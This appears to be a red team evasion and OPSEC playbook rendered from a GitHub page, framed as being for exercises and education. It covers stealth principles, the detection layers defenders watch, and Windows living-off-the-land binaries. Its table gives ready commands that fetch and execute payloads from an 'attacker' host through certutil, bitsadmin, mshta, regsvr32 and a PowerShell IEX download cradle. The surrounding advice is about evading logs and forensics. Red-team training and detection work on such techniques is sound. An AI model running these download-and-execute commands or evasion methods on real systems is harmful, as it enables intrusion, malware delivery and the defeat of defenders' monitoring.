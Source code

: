 # 🔻 Red Team Evasion & OPSEC Playbook

## **Red Team Evasion & OPSEC Playbook — Stealth, Persistence, and Survival**

> 🧠 For controlled red team exercises, cyber ranges, and educational use.\
> The goal: **stay undetected**, execute efficiently, and leave minimal forensic trace.

***

### I. 🧩 Red Team Mindset

| Principle                | Meaning                                                       |
| ------------------------ | ------------------------------------------------------------- |
| **Stealth > Speed**      | Don’t rush enumeration or exploits. Slow = invisible.         |
| **Blend In**             | Look like normal system or user activity.                     |
| **Minimize Touchpoints** | Every command is a log entry. Use fewer, smarter ones.        |
| **Operate in Memory**    | Avoid writing files to disk; live off the land.               |
| **Compartmentalize**     | Separate infrastructure for staging, payloads, C2, and exfil. |
| **Fail Quietly**         | If something breaks, fix it silently. No panic scripts.       |

***

### II. 🧱 Execution Visibility Layers

| Layer            | Monitored By                  | Logs / Sensors                     |
| ---------------- | ----------------------------- | ---------------------------------- |
| **Command Line** | Shell history, Sysmon, Auditd | process creation logs              |
| **File System**  | AV scanners, FIM agents       | file writes, temp dirs             |
| **Network**      | IDS/IPS, firewalls            | outbound connections               |
| **Memory**       | EDR, behavioral analysis      | in-memory DLLs, injection patterns |
| **Credentials**  | LSA, SAM, Kerberos            | authentication logs                |

🧠 Always test your commands against all 5 visibility layers.

***

### III. 💻 Living Off the Land (LOLBins / LOLScripts)

#### 🪟 Windows

| Binary           | Use                          | Example                                                                           |
| ---------------- | ---------------------------- | --------------------------------------------------------------------------------- |
| `certutil.exe`   | Download / encode            | `certutil -urlcache -split -f http://attacker/payload.exe payload.exe`            |
| `bitsadmin.exe`  | Background download          | `bitsadmin /transfer job http://attacker/payload.exe C:\Users\Public\payload.exe` |
| `mshta.exe`      | Execute HTA (remote script)  | `mshta http://attacker/payload.hta`                                               |
| `rundll32.exe`   | Execute DLL payload          | `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication"`                         |
| `wmic.exe`       | Execute remote process       | `wmic process call create "cmd /c calc.exe"`                                      |
| `regsvr32.exe`   | Bypass execution restriction | `regsvr32 /s /u /i:http://attacker/file.sct scrobj.dll`                           |
| `powershell.exe` | In-memory scripts            | `IEX(New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')`      |
